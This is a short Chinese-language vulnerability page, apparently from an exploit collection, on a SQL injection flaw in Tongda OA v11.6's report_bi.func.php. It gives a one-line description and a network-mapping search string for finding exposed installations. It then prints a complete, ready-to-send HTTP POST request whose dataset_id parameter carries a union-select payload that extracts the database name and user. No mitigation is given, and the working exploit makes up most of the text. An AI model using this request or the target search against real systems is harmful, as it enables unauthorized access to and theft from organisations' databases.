


通达OA v11.6 report_bi.func.php SQL注入漏洞¶
漏洞描述¶
通达OA v11.6 report_bi.func.php 存在SQL注入漏洞，攻击者通过漏洞可以获取数据库信息
漏洞影响¶
通达OA v11.6
网络测绘¶
app="TDXK-通达OA"
漏洞复现¶
登陆页面

发送请求包执行SQL语句
POST /general/bi_design/appcenter/report_bi.func.php HTTP/1.1
Host:
User-Agent: Go-http-client/1.1
Content-Length: 113
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
_POST[dataset_id]=efgh%27-%40%60%27%60%29union+select+database%28%29%2C2%2Cuser%28%29%23%27&action=get_link_info&
